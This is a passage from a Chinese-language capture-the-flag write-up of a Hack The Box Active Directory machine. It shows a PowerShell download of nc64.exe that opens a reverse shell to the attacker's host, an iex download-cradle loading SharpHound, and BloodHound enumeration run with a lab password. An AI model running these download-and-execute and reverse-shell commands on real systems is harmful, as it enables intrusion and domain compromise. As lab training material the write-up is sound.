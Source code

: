 ```ruby
```

执行交互，成功获取到`svc-alfresco`的shell：

![](https://p3.ssl.qhimg.com/t0167b9a4c0dd0987c0.png)


**- 进入`svc-alfresco`用户的桌面，拿到`user flag`:**

![](https://p4.ssl.qhimg.com/t01062c6915af4c6690.png)

为了操作方便后续操作，我决定建立反向shell。把`nc64.exe`放入`/var/html/www`目录，开启Apache 服务：

```shell
~$ sudo service apache2 start  
```

![](https://p5.ssl.qhimg.com/t01b3d6b2f9eecdd52d.png)

在winrm-shell中，下载执行，成功获取反向shell：

```powershell
PS > iwr -uri http://10.10.14.67/nc64.exe -outf shell.exe
PS > ./shell.exe 10.10.14.67 8888 -e powershell.exe
```

![](https://p3.ssl.qhimg.com/t01983c216d5089e503.png)

![](https://p4.ssl.qhimg.com/t013fbea0b507b7a77e.png)

## 0x04 提权

>这里使用到了[Bloodhound](https://github.com/BloodHoundAD/BloodHound/)工具，如果有小伙伴对`active directly attack`不了解，可以参见它的github主页：https://github.com/BloodHoundAD/BloodHound/ 和知乎文章：[《使用BloodHound查找Active Directory攻击路径》](https://zhuanlan.zhihu.com/p/121552304)。BloodHound是基于图的权限探索工具，它将列出给定域中对象之间的权限和关系，可以识别Active Directory（AD）中的不同攻击路径，其中包括访问控制列表（ACL）、用户、组、信任关系和唯一的AD对象等。
>
>kali可以直接运行命令安装：`sudo apt-get install bloodhound`。

首先将项目git到本地：

```shell
~$ git clone https://github.com/BloodHoundAD/BloodHound.git
```

这里要使用`/BloodHoundAD/BloodHound/blob/master/Ingestors/`目录下的`SharpHound.ps1`工具。将它放入`/var/html/www`中，在`svc-alfresco`的shell中加载执行：

```powershell
PS C:\Users\svc-alfresco\evil> iex(new-object net.webclient).downloadstring("http://10.10.14.67/SharpHound.ps1")

PS C:\Users\svc-alfresco\evil> invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice

-----------------------------------------------
Initializing SharpHound at 12:38 AM on 4/2/2020
-----------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain HTB.LOCAL using path CN=Schema,CN=Configuration,DC=HTB,DC=LOCAL
PS C:\Users\svc-alfresco\evil> [+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 84 MB RAM
Status: 123 objects finished (+123 24.6)/s -- Using 118 MB RAM
```
